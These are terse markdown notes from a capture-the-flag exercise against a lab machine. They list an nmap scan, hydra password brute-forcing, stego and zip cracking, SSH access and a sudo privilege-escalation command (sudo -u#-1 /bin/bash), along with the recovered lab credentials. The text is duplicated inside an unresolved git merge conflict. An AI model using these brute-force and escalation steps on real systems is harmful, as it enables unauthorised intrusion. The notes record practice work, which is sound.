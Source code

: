 <<<<<<< HEAD
- 10.10.108.139

- `nmap -sS -sV -A <IP>`
	- 21: ftp
		- open
		- vsftpd 3.0.3
	- 22: ssh
		- OpenSSH 7.6
	- 80: http
		- Apache 2.4.29

- website
	- nothing on Burp
	- gobuster
		- noting
	- HINT:
		- intercept request - change user-agent
		- → **username: chris**

- ftp
	- not anon
	- try to breach chris's password w/ hydra
		- → **chris:crystal**
	- got 3 files:
		- txt with instructions, jpeg, png (stego)
	- `foremost -x <steg_file>`
		- → zip password: **alien**
	- crack zip w/ john
		- → **QXJlYTUx**
		- use for second steg file
		- got second creds
			- **james:hackerrules!**

- ssh
	- james's creds
		- → user flag
	- privilege escalation
		- `sudo l` → (ALL, !root) /bin/bash
=======
- 10.10.108.139

- `nmap -sS -sV -A <IP>`
	- 21: ftp
		- open
		- vsftpd 3.0.3
	- 22: ssh
		- OpenSSH 7.6
	- 80: http
		- Apache 2.4.29

- website
	- nothing on Burp
	- gobuster
		- noting
	- HINT:
		- intercept request - change user-agent
		- → **username: chris**

- ftp
	- not anon
	- try to breach chris's password w/ hydra
		- → **chris:crystal**
	- got 3 files:
		- txt with instructions, jpeg, png (stego)
	- `foremost -x <steg_file>`
		- → zip password: **alien**
	- crack zip w/ john
		- → **QXJlYTUx**
		- use for second steg file
		- got second creds
			- **james:hackerrules!**

- ssh
	- james's creds
		- → user flag
	- privilege escalation
		- `sudo l` → (ALL, !root) /bin/bash
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
		- `sudo -u#-1 /bin/bash`  (1 not l)
